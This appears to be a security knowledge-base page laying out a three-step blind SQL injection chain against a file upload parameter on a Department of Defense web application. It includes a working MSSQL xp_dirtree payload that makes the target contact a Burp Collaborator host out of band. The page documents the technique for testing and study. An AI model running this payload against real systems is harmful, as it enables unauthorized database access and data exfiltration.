

# Blind SQL Injection via File Upload Parameter for Out-of-Band Exfiltration

Multi-stage attack chain demonstrating exploitation of a SQL injection vulnerability in the 'from' parameter of a file upload endpoint on a U.S. Department of Defense web application, leading to blind SQLi confirmation and potential arbitrary SQL execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]

### Target Environment

- Web application with Microsoft SQL Server backend
- Access to POST /FileTransfer/Upload endpoint
- Network access to send multipart/form-data requests

### Initial Access Requirements

- No credentials required (public-facing application)
- Ability to intercept and modify HTTP requests (e.g., via proxy)

## Detailed Attack Procedures

### Step 1: Detect SQL Injection Point
procedure: [[procedures/Detect-SQL-Injection-in-From-Parameter]]

**Objective**: Identify the injectable 'from' parameter in the file upload endpoint by testing for SQL syntax errors.

**Instructions**: Intercept the POST request to /FileTransfer/Upload using a proxy like Burp Suite. Modify the 'from' parameter to include a single quote ('hello''). Observe the response for SQL errors indicating syntax breakage.

**Expected Output**: Server response showing SQL error or unexpected behavior due to unclosed quote.

**Success Indicators**:
- SQL syntax error in response
- Parameter confirmed as injectable

### Step 2: Inject xp_dirtree Payload
procedure: [[procedures/Inject-xp_dirtree-Payload-for-Exfiltration]]

**Objective**: Craft and inject a blind SQLi payload using xp_dirtree to trigger out-of-band DNS resolution to a collaborator server.

**Instructions**: Prepare a multipart/form-data POST request. Set the 'from' parameter to a payload that closes the original query and executes the stored procedure: use [[commands/declare-xp_dirtree-unc]] to define the UNC path with your Burp Collaborator domain.

```sql
declare @q varchar(99);set @q='\\4fkxoc5km935m5n0dqqu3vvk5bb1zq.burpcollaborator.net/random'; exec master.dbo.xp_dirtree @q;--
```

Submit the request and monitor for interactions.

**Expected Output**: No direct response change, but out-of-band DNS query to collaborator.

**Success Indicators**:
- DNS resolution observed on collaborator
- Payload execution confirmed indirectly

### Step 3: Confirm Exploitation
procedure: [[procedures/Confirm-Exploitation-via-Out-of-Band-Interactions]]

**Objective**: Validate SQL execution by observing DNS and HTTP interactions triggered by the payload.

**Instructions**: Monitor Burp Collaborator for incoming DNS queries from the target server. Look for follow-up HTTP PROPFIND requests using [[commands/propfind-webdav-request]] as evidence of WebDAV interaction.

**Expected Output**: DNS query to collaborator domain and PROPFIND HTTP request with server details.

**Success Indicators**:
- DNS interaction received
- PROPFIND request intercepted, confirming arbitrary SQL execution

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed blind SQL injection in file upload parameter
2. Executed MSSQL stored procedure for out-of-band exfiltration
3. Validated exploitation via DNS and HTTP interactions, enabling further database compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
